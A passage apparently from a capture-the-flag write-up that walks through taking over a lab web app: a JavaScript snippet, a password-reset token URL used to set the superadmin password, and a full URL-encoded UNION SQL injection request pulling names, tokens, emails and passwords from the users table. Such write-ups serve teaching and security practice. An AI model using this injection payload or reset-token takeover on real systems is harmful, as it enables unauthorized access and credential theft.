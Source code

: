 ```javascript
    }else{
        res.redirect("/login");
    }
});
```

We can access `/forgotpass/token/XrMxV5ZGfAJSCUt1duXujkgefpk1QcTj`

![Accessing the Forgotten Password Page](img/obj12-4/img7.png)

And change the superadmin's password! I'll change it to `letmein1234!`


`GET /detail/1,2%20UNION%20SELECT%20*%20FROM%20(SELECT%201)a%20JOIN%20(SELECT%20name%20from%20users%20where%20id%20=%201)b%20JOIN%20(select%20token%20from%20users%20where%20id%20=%201)c%20JOIN%20(SELECT%20email%20from%20users%20where%20id%20=%201)d%20JOIN%20(SELECT%20password%20from%20users%20where%20id%20=%201)e%20JOIN%20(SELECT%206)f%20JOIN%20(SELECT%207)g-- HTTP/2`

## Hacker voice: "I'm in."
![I'm in](img/obj12-4/img8.png)
